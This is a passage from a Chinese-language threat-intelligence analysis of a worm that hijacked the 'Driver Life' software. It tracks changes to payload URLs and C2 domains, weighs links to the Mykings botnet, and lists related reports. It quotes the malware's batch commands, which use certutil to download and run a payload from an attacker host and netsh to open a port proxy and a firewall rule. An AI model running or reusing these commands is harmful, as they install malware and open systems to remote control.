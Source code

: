 各大安全厂商曝光该攻击，攻击逐步停止。

### 2018年12月27日

永恒之蓝攻击模块攻击成功后在目标机器上运行的bat的内容变更下一阶段的payload地址

从http://dl.haqo.net/dl.exe改成了http://dl.haqo.net/dll.exe；

certutil -urlcache -split -f http://dl.haqo.net/dll.exe c:\installs.exe

netsh interface portproxy add v4tov4 listenport=65532 connectaddress=1.1.1.1 connectport=53

netsh firewall add portopening tcp 65532 DNS2

c:\windows\temp\cm.exe /c c:\installs.exe

taskkill /F /IM cmd.exe

而该地址下载回来的样本（f9144118127ff29d4a49a30b242ceb55）的C2地址为以下3个，增加了[http://img.minicen.ga/i.png](http://img.minicen.ga/i.png)，而该域名为免费域名，注册地址为：freenom.com

[![](https://p4.ssl.qhimg.com/t01c6964f246365cc9d.png)](https://p4.ssl.qhimg.com/t01c6964f246365cc9d.png)

### 2019年1月23日

http://dl.haqo.net/dll.exe的地址的样本变为：

59b18d6146a2aa066f661599c496090d，下图为该样本的传播量：

[![](https://p4.ssl.qhimg.com/t0170bca3f6eaa55a71.png)](https://p4.ssl.qhimg.com/t0170bca3f6eaa55a71.png)

该样本的C2地址变为下图的3个域名，增加了o.beahh.com：

其中 beahh.com域名是2019年1月16日刚注册的。

[![](https://p2.ssl.qhimg.com/t014d41f5982d6765b6.png)](https://p2.ssl.qhimg.com/t014d41f5982d6765b6.png)

[![](https://p1.ssl.qhimg.com/t01cf223b58b5691b91.png)](https://p1.ssl.qhimg.com/t01cf223b58b5691b91.png)



## 总结

360威胁情报中心基于自有的大数据和威胁情报平台对入侵驱动人生的幕后团伙进行了关联分析，发现其所用的IP与Mykings事件团伙的部分IP重合，并且使用时间的段重合，甚至连样本所访问的URL格式、端口都一样。但是两个团伙已知的恶意代码没有太多的相似之处，格式高度一致的URL没有实际上的请求和响应数据，由于VT不可靠的URL检测机制，该URL是否实际存在也是个疑问。

基于看到的事实，有两个猜想值得关注：1、入侵“驱动人生”的幕后黑手与Mykings事件团伙存在联系，甚至可能是同一个团伙。2、“驱动人生”木马的团伙在有意识地积极栽赃嫁祸给Mykings团伙。我们的观点倾向于后者，360威胁情报中心会持续保持跟踪，基于新发现的事实调整自己的看法，也希望安全业界分享自己的发现。



## 参考

360对劫持“驱动人生”的挖矿蠕虫分析报告系列详情如下表：
<td valign="top" width="357">分析文章标题</td><td valign="top" width="78">发布日期</td><td valign="top" width="149">分析团队</td>
<td valign="top" width="357">《利用“驱动人生”升级程序的恶意程序预警》</td><td valign="top" width="78">2018.12.15</td><td valign="top" width="149">360互联网安全中心</td>
<td valign="top" width="357">《驱动人生旗下应用分发恶意代码事件分析 – 一个供应链攻击的案例》</td><td valign="top" width="78">2018.12.17</td><td valign="top" width="149">360威胁情报中心</td>
<td valign="top" width="357">《警报！“永恒之蓝”下载器木马再度更新！》</td><td valign="top" width="78">2018.12.19</td><td valign="top" width="149">360安全卫士</td>
<td valign="top" width="357">《劫持“驱动人生”的挖矿蠕虫再次活跃》</td><td valign="top" width="78">2019.01.24</td><td valign="top" width="149">360威胁情报中心</td>
<td valign="top" width="357">《MyKings: 一个大规模多重僵尸网络》</td><td valign="top" width="78">2018.01.24</td><td valign="top" width="149">360网络安全研究院</td>
